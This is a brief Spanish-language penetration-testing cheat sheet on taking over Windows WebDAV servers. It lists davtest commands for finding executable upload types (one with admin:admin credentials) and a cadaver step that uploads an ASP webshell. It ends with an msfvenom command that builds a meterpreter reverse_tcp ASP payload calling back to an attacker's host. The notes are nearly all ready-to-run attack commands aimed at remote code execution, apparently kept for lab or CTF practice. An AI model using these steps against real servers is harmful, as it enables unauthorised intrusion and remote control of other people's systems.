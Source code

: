 ```yaml
---
created: 2024-12-21

---
```

--------------
- tags: #web #windows #cadaver #davtest #fileupload #rce 
--------------

## davtest
> davtest sirve para hacer un chequeo sobre que extensiones de archivo se pueden subir y cuales son ejecutadas. Una vez tenemos esta información podemos usar cadaver para ganar RCE

	davtest -url http://x.x.x.x/webdav

	davtest -auth admin:admin -url http://x.x.x.x/webdav


## cadaver

	cadaver http://x.x.x.x/webdav
(Al ejecutar este comando nos pedirá el usuario y la contraseña)

	put /usr/share/webshells/asp/webshell.asp


## Payload con msfvenom

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -f asp -o shell.asp






